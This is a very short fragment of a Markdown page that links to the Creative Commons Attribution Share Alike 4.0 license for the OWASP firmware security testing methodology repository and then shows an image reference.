[Creative Commons Attribution Share Alike 4.0 International](https://github.com/scriptingxss/owasp-fstm/blob/master/License.md)

  
